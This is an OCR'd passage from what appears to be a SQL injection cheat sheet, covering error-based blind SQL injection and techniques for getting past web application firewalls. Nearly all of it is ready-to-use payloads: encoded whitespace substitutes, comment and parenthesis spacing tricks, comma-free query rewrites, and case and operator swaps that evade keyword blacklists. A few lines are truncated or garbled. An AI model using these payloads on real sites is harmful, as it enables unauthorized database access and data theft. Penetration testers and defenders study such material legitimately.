 
**5. Exploiting Error Blind SQLi**
This is the same case as before but instead of distinguish between a true/false response from the query you can distinguish between an error in the SQL query or not (maybe because the HTTP server crashes).\
Therefore, in this case you can force an SQLerror each time you guess correctly the char:

> AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'

**6. WAF Bypass**\
***No spaces bypass***

No Space (%20) - bypass using whitespace alternatives
> 
> ?id=1%09and%091=1%09--
> 
> ?id=1%0Dand%0D1=1%0D--
> 
> ?id=1%0Cand%0C1=1%0C--
> 
> ?id=1%0Band%0B1=1%0B--
> 
> ?id=1%0Aand%0A1=1%0A--
> 
> ?id=1%A0and%A01=1%A0--

No Whitespace - bypass using comments

> ?id=1/*comment*/and/**/1=1/**/--

No Whitespace - bypass using parenthesis

> ?id=(1)and(1)=(1)--

***No commas bypass***\
No Comma - bypass using OFFSET, FROM and JOIN

> LIMIT 0,1         -> LIMIT 1 OFFSET 0
> 
> SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
> 
> SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d

***Generic Bypasses***\
Blacklist using keywords - bypass using uppercase/lowercase
> 
> ?id=1 AND 1=1#
> 
> ?id=1 AnD 1=1#
> 
> ?id=1 aNd 1=1#

Blacklist using keywords case insensitive - bypass using an equivalent operator
> 
> AND   -> && -> %26%26
> 
> OR    -> || -> %7C%7C
> 
> =     -> LIKE,REGEXP,RLIKE, not < and not >
> 
> > X   -> not between 0 and X
> 
> WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())
